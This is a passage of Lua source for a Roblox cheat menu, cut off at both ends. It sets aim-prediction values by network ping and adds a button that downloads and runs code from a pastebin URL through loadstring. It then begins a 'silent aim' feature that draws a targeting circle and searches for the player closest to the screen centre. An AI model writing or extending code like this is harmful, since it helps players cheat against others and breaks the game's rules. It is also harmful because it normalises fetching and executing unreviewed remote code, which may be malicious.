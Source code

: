            getgenv().Prediction = 0.133
        elseif ping < 90 then
            getgenv().Prediction = 0.130
        elseif ping < 80 then
            getgenv().Prediction = 0.128
        elseif ping < 70 then
            getgenv().Prediction = 0.1230
        elseif ping < 60 then
            getgenv().Prediction = 0.1229
        elseif ping < 50 then
            getgenv().Prediction = 0.1225
        elseif ping < 40 then
            getgenv().Prediction = 0.1256
        end
	end
    end
end)

Section:NewButton("lorb target Aimlock Tool", "ButtonInfo", function()
loadstring(game:HttpGet("https://pastebin.com/raw/3ViK4zBC"))();
end)

Section:NewButton("lorb Silent aim", "op", function()
-- Settings
getgenv().HitPart = "HumanoidRootPart"
getgenv().Prediction = 0.1485436
getgenv().Enabled = true

-- FOV settings
getgenv().ShowFOV = true
getgenv().Filled = false
getgenv().FOVSize = 150
getgenv().FOVTransparency = 0.1
getgenv().FOVThickness = 2.0
getgenv().FOVColor = Color3.new(0, 0, 0)

-- FOV circle creation
SilentAimFOVCircle = Drawing.new("Circle")
SilentAimFOVCircle.Color = getgenv().FOVColor
SilentAimFOVCircle.Visible = getgenv().ShowFOV
SilentAimFOVCircle.Filled = getgenv().Filled
SilentAimFOVCircle.Radius = getgenv().FOVSize
SilentAimFOVCircle.Transparency = getgenv().FOVTransparency
SilentAimFOVCircle.Thickness = getgenv().FOVThickness

-- Services
Players = game:GetService("Players")
Camera = workspace.CurrentCamera

-- Calculate circle position
SilentAimFOVCircle.Position = Vector2.new(workspace.CurrentCamera.ViewportSize.X / 2, workspace.CurrentCamera.ViewportSize.Y / 2 - (game:GetService("GuiService"):GetGuiInset().Y / 2))

-- Function to find the closest player to the center of the screen
local function getClosestPlayerToCenter()
    local centerScreenPosition = Vector2.new(workspace.CurrentCamera.ViewportSize.X / 2, workspace.CurrentCamera.ViewportSize.Y / 2 - (game:GetService("GuiService"):GetGuiInset().Y / 2))
    local closestPlayer
    local closestDistance = math.huge
    local localPlayer = game.Players.LocalPlayer
